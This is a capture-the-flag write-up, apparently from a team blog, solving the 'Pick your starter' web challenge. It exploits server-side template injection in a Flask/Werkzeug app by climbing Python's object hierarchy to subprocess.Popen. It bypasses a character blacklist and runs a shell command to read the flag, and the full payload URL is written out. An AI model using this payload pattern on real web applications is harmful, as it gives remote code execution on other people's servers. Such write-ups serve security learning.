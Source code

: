 ```yaml
---
layout: post
title: "Pick your starter"
date: 2023-09-12 12:00:00 +0200
---
```


We have a website which displays pokemon

![Alt text](/assets/pctf/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint. (checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/))

![](/assets/pctf/pick-your-starter-1.png)

## Vulnerability

After some experimentation we discover that there is a **template injection attack**, let's see the result for `/{{7*6}}`

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-+'"[]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{{7*6}}")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. Given the black list, we are able to access a global object through `()` climbing to the base class `object` we are able to list all available classes with the `__subclasses__` method.

The URL looks like this:
`http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__()}}`

The response looks like this (the final list is a lot longer):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element: `subprocess.Popen` as it will give us a shell.

We cannot use `[]` characters so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor, this can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt`.

The final URL:
`"http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
